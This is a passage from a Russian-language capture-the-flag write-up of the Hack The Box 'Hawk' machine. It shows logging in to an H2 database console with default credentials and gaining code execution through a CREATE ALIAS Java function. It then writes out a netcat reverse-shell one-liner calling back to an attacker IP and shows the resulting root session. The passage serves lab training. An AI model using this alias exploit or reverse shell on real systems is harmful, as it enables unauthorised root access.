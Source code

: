 И попробуем авторизоваться в веб-консоле H2, которая поселилась по адресу `http://127.0.0.1:8082`:

[![hawk-port8082-browser-2.png]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-2.png" | relative_url }})]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-2.png" | relative_url }})

Подключиться к БД `jdbc:h2:~/test` не удалось, т. к. она **существует и** мы не знаем нужных кредов. Но вот если попробовать присоединиться к **несуществующей** базе, то она автоматически будет создана, и залогиниться можно будет с кредами по умолчанию `sa:`:

[![hawk-port8082-browser-3.png]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-3.png" | relative_url }})]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-3.png" | relative_url }})

Есть контакт, и мы внутри.

## CREATE ALIAS
Есть не один способ эскалации привилегий с помощью инструментария H2, но в рамках данного райтапа мы остановимся на выполнении произвольного кода через создание функций с помощью `CREATE ALIAS`. В [этом](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html "Gambler - Hacking and other stuffs") посте хорошо описан этот метод.

Для начала создадим такой алиас:
```text
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```

И заберем root-флаг:

### root.txt

[![hawk-port8082-browser-4.png]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-4.png" | relative_url }})]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-4.png" | relative_url }})

И напоследок, чтобы с чистой совестью отправить эту машину в утиль, получим root-сессию. Сделать это почти так же просто — для этого сперва создадим bash-reverse-shell на машине-жертве (чтобы не мучаться с "плохими" символами в веб-консоли):
```text
daniel@hawk:~$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 8881 >/tmp/f' > .sh3ll.sh
```

После чего запустим этот шелл, слушая при этом 8881-й порт:

[![hawk-port8082-browser-5.png]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-5.png" | relative_url }})]({{ "/img/htb/boxes/hawk/hawk-port8082-browser-5.png" | relative_url }})

```text
root@kali:~# nc -lvnp 8881
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8881
Ncat: Listening on 0.0.0.0:8881
Ncat: Connection from 10.10.10.102.
Ncat: Connection from 10.10.10.102:35130.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
54f3e840????????????????????????
```
